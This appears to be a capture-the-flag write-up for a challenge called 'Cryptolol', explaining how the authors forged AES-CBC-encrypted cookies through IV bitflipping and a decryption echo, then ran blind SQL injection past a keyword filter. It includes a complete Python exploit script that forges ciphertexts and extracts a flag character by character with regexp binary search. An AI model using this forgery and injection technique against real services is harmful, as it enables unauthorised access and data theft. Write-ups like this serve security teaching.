

# Cryptolol (Crypto/Web)

In the task we get access to a webpage which only prints out:



There is pretty much nothing else there.
But we get an interesting base64 encoded cookie from the server called `USERNAME`.
Playing around with this cookie we figure out it's AES-CBC encrypted username.
We can do some bitflipping of the first bytes and it changes corresponding bytes in next 16 byte block.
We also get a full echo on the decryption results from the server.

Initially we thought it might simply be padding oracle of some sort, but we easily checked that there is no PKCS padding at all.
We removed IV block, so decryption would show only the second block, and then by bitflipping we deduced that the whole thing is padded with spaces.
We also verified that ciphertext we have contains simply what was printed out - `Smelly Tooth Cromwel`.

Short reminder for those who are not familiar with CBC mode: each ciphertext block is decrypted first with AES and then XORed with previous block. 
First block is XORed with so called IV, which is appended as the first block of ciphertext.
The trick is that we can change IV however we want, and it will result in changing the plaintext after decryption.
If we XOR k-th byte of IV with value `x` then k-th byte of first plaintext block will also get XORed with `x`.
Using this technique we can force any decryption we want for a single block.

By playing around with a single block we noticed that there is some kind of WAF on the server, because changing the plaintext contents to words like `union` or `sleep` was giving a special error that the contents were suspicious.

We tried to get some kind of SQL Injection, but we could get this to work with only one block.
We decided we need more characters in the query.

Fortuanately server gave us full decryption results, and this allows us to forge a ciphertext for any plaintext we want.
We can do this by:

1. We send bytes `\x00` in as many blocks as we need for the payload we want to send.
2. We read how server decrypted this.
3. We take last block decryption and XOR it with last block of plaintext we want. The result is what the previous block has to be, in order for us to get this result.
4. We set previous block for the XOR result value.
5. We send the current ciphertext again, but without the last block.
6. We repeat steps 2-5 for all blocks until last XOR becomes the IV.

This way we get a ciphertext which will get decrypted to plaintext we want.

There were some issues with the injection payload here:

1. There was WAF which removed some useful instructions
2. It took us a while to figure out the schema and then to notice that for user `Smelly Tooth Cromwel` the `flag` field is null, and we need to find another user with the real flag.
3. We could only get a blind injection, and the query was very particular, because if the result set had more/less than 1 record, it would fail with error, so we used injection in the form of `Smelly Tooth Cromwel' or CONDITION`, and if the condition was true then result set would have more records and there would be error, and otherwise no error would appear.
4. It was pretty slow, even with binary search.
5. Substring-like functions were blacklisted so eventually we casted flag to binary and run regex matching on this:

```python
import base64
import re
from ast import literal_eval
from math import ceil
import requests
from bs4 import BeautifulSoup
from crypto_commons.generic import chunk, xor_string


def pad(plaintext):
    blocks = int(ceil((float(len(plaintext)) / 16)))
    return plaintext.ljust(blocks * 16, ' ')


def send_payload(payload):
    return requests.get('http://cryptolol.challs.malice.fr', cookies={'USERNAME': base64.b64encode(payload)})


def get_error_message(content):
    soup = BeautifulSoup(content, 'html.parser')
    message = soup.select_one('.error-message')
    if message:
        if 'Suspicious' in message.text:
            raise Exception('filter')

        return re.findall('''the user b(["'].*['"]) has been''', message.text)[0]
    elif 'Caribbean pirate' in soup.text:
        return True


def form_full_payload(plaintext):
    blocks = len(pad(plaintext)) / 16
    chunks = chunk(pad(plaintext), 16)
    payload = ("\0" * 16) * blocks
    final_blocks = ["\0" * 16]
    for i in range(blocks):
        response = send_payload(payload)
        decrypted = literal_eval(get_error_message(response.content))
        last_block = decrypted[-16:]
        new_block = xor_string(chunks[-i], last_block)
        final_blocks.append(new_block)
        payload = '\x00' * 16 * (blocks - 1) + new_block
    return "".join(final_blocks[::-1])


def convert(x):
    return "\\\\x" + (hex(x)[2:].zfill(2))


def guess_single(prefix, single):
    guess = convert(single)
    text = '''
    Smelly Tooth Cromwel' or flag is not null and (cast(flag as binary) regexp '^.{{{prefix_len}}}{guess}') #
    '''.strip().format(prefix_len=len(prefix), guess=guess)
    payload = form_full_payload(' ' * 16 + text)
    response = send_payload(payload)
    return get_error_message(response.content) is None


def guess_letter(prefix, low, high):
    mid = (low + high) / 2
    if low == high:
        return chr(low)
    if guess_single(prefix, mid):
        return chr(mid)
    print(low, high)
    guess = "[%s-%s]" % (convert(low), convert(mid))
    text = '''
    Smelly Tooth Cromwel' or flag is not null and (cast(flag as binary) regexp '^.{{{prefix_len}}}{guess}') #
    '''.strip().format(prefix_len=len(prefix), guess=guess)
    print(text)
    payload = form_full_payload(' ' * 16 + text)
    response = send_payload(payload)
    if get_error_message(response.content) is None:
        return guess_letter(prefix, low, mid - 1)
    else:
        return guess_letter(prefix, mid + 1, high)

		
def main():
    flag = ""
    while True:
        flag += (guess_letter(flag, 0, 129))
        print("Flag progress:", flag)


main()
```

After some (very long...) time we get `NDH{L!st3n-to_me,MOrty.I_know..that~new$5ituat1oNs*caN--be__int|miDAting...}`
